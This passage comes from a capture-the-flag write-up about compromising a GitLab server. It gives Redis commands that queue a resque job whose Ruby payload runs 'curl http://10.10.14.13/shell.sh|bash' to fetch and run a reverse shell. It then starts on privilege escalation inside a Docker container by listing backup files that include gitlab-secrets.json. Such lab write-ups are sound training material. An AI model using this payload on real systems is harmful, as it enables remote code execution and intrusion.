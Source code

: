 ```http
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|curl http://10.10.14.13/shell.sh|bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
%2F.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=newnew&project%5Bnamespace_id%5D=6&project%5Bpath%5D=newnew&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```
{% endcode %}

Afterwards, it would download and execute a reverse shell script from us:

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag after this.

## Privilege Escalation

We find that we are currently in a Docker container as commands like `sudo`, `ipconfig` are all not present. Also, a lot of essential services aren't running. So now, let's think about how to escape this container.&#x20;

### Root Credentials

Within the `/opt` directory, there is a backup folder.

```
git@gitlab:/opt$ ls -la
total 24
drwxr-xr-x 1 root root 4096 Apr  5  2022 .
drwxr-xr-x 1 root root 4096 Apr  5  2022 ..
drwxr-xr-x 2 root root 4096 Apr  5  2022 backup
drwxr-xr-x 1 root root 4096 Apr  5  2022 gitlab

git@gitlab:/opt/backup$ ls -la
total 112
drwxr-xr-x 2 root root  4096 Apr  5  2022 .
drwxr-xr-x 1 root root  4096 Apr  5  2022 ..
-rw-r--r-- 1 root root   904 Apr  5  2022 docker-compose.yml
-rw-r--r-- 1 root root 15150 Apr  5  2022 gitlab-secrets.json
-rw-r--r-- 1 root root 81492 Apr  5  2022 gitlab.rb
```
